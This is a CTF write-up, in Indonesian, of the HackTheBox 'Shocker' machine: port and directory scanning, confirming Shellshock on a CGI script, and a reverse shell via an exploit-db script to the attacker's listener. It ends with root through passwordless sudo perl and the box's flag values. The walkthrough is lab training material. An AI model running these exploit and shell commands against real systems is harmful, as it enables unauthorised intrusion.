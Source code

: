 ```yaml
---
layout: post
title: "HTB Shocker Writeup"
description: "HTB Shocker Writeup"
comments: true
keywords: "HackTheBox"
---
```

_Perl, Web, Injection_

# NMAP 


```
#   Nmap 7.91 scan initiated Tue Jul  6 11:17:37 2021 as: nmap -A -v -oN nmap.txt 10.10.10.56
Increasing send delay for 10.10.10.56 from 0 to 5 due to 60 out of 199 dropped probes since last increase.
Nmap scan report for 10.10.10.56
Host is up (0.034s latency). 
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 4.9 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 4.2 (95%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.098 days (since Tue Jul  6 08:56:35 2021)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   32.29 ms 10.10.14.1
2   32.37 ms 10.10.10.56

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul  6 11:18:09 2021 -- 1 IP address (1 host up) scanned in 31.93 seconds
```
# DIRB
```
┌──(kali㉿kali)-[~/htb/shocker]
└─$ dirb http://10.10.10.56:80/ /usr/share/seclists/Discovery/Web-Content/common.txt                          127 ⨯

-----------------
DIRB v2.22      
By The Dark Raver
-----------------

START_TIME: Wed Jul  7 04:20:46 2021
URL_BASE: http://10.10.10.56:80/
WORDLIST_FILES: /usr/share/seclists/Discovery/Web-Content/common.txt

-----------------

GENERATED WORDS: 4685                                                          

---- Scanning URL: http://10.10.10.56:80/ ----
+ http://10.10.10.56:80/cgi-bin/ (CODE:403|SIZE:294)                                                               
+ http://10.10.10.56:80/index.html (CODE:200|SIZE:137)                                                             
+ http://10.10.10.56:80/server-status (CODE:403|SIZE:299)                                                          
                                                                                                                   
-----------------
END_TIME: Wed Jul  7 04:23:20 2021
DOWNLOADED: 4685 - FOUND: 3
```
Ada folder cgi-bin yang mencurigakan. Lakukan lagi scan pada /cgi-bin 
    
```
┌──(kali㉿kali)-[~/htb/shocker]
└─$    gobuster dir -u  10.10.10.56/cgi-bin/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x  sh,cgi,pl  
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56/cgi-bin/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              sh,cgi,pl
[+] Timeout:                 10s
===============================================================
2021/07/10 02:59:33 Starting gobuster in directory enumeration mode
===============================================================
/user.sh              (Status: 200) [Size: 118]
Progress: 5232 / 830576 (0.63%)               ^C
[!] Keyboard interrupt detected, terminating.
                                               
===============================================================
2021/07/10 02:59:52 Finished
===============================================================
```
Ada file user.sh, jika dibuka di browser bisa didownload dan berikut adalah isinya
```
Content-Type: text/plain

Just an uptime test script

 11:34:00 up  2:40,  0 users,  load average: 0.02, 0.06, 0.01
```
Isinya ternyata mirip dengan command uptime biasa di linux.  

# VULNERABILITY - SHELLSHOCK
Selain itu tidak ada informasi lagi yang bisa didapatkan. Lalu saya berpikir sepertinya vulnerabilitynya memang di apachenya. Setelah googling "apache cgi-bin vuln" saya menemukan vulnerability ini : https://www.exploit-db.com/exploits/34900
 
"Shellshock, also known as Bashdoor,[1] is a family of security bugs[2] in the Unix Bash shell, the first of which was disclosed on 24 September 2014. Shellshock could enable an attacker to cause Bash to execute arbitrary commands and gain unauthorized access[3] to many Internet-facing services, such as web servers, that use Bash to process requests. " -wikipedia
  
Untuk memverifikasi bahwa ini memang shellshock gw coba jalanin NSE script nmap untuk meriksa:
 ```
# Nmap 7.91 scan initiated Wed Jul  7 07:25:53 2021 as: nmap -A -v --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=ls -oN 2nmap.txt 10.10.10.56
Nmap scan report for 10.10.10.56
Host is up (0.070s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     References:
|       http://seclists.org/oss-sec/2014/q3/685
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|_      http://www.openwall.com/lists/oss-security/2014/09/24/10
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul  7 07:26:06 2021 -- 1 IP address (1 host up) scanned in 12.37 seconds
```             

Ternyata memang vulnerable ke shellshock. Selanjutnya mari kita exploit.                                                                                    
 
# EXPLOITATION - SHELLSHOCK
Gunakan poc di https://www.exploit-db.com/exploits/34900, lalu jalankan dengan comand berikut : 
 ```
┌──(kali㉿kali)-[~/htb/shocker]
└─$ ./exploit.py payload=reverse rhost=10.10.10.56 lhost=10.10.14.26 lport=45 pages=/cgi-bin/user.sh        1 ⨯ 1 ⚙
[!] Started reverse shell handler
[-] Trying exploit on : /cgi-bin/user.sh
[!] Successfully exploited
[!] Incoming connection from 10.10.10.56
10.10.10.56> ls
user.sh

10.10.10.56> whoami
Shelly
```

# PRIVESC
```
10.10.10.56> sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl

10.10.10.56> 
```
Ketika diperiksa dengan sudo -l ternyata perl bisa dijalankan sebagai root.  Spawn bash menggunakan perl dengan perintah berikut: 
```
10.10.10.56> sudo perl -e 'exec "/bin/sh";'
10.10.10.56> whoami
root
```
# FLAGS
Setelah mendapat root kedua flag bisa didapatkan dengan mudah
 
## User  flag : 
10.10.10.56> cat /home/shelly/user.txt
d967e5805006ca1e927d9d0188e02215

## Root flag:
10.10.10.56> cat /root/root.txt
7724872cf757e82700af2ed2d08b257a  
 
---
